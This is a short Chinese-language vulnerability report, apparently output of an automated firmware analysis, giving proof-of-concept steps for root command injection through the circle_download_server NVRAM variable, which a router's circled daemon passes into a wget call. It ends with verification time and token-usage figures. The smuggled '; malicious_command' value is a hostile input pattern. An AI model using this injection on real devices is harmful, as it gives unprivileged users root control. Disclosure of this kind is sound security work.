 PoC 步骤：
1. 作为非 root 用户，设置 NVRAM 变量：`nvram set circle_download_server="http://example.com/; malicious_command"`
2. 触发固件更新检查（例如，等待 circled 守护进程自动执行或重启服务）。
3. 恶意命令将以 root 权限执行，例如在 wget 命令中注入：`wget -q -T 10 -O /tmp/circleinfo.txt http://example.com/; malicious_command circleinfo.txt`

此漏洞已验证为实际可利用，风险高。

## 验证指标

- **验证时长：** 381.05 秒
- **Token 使用量：** 933375

---

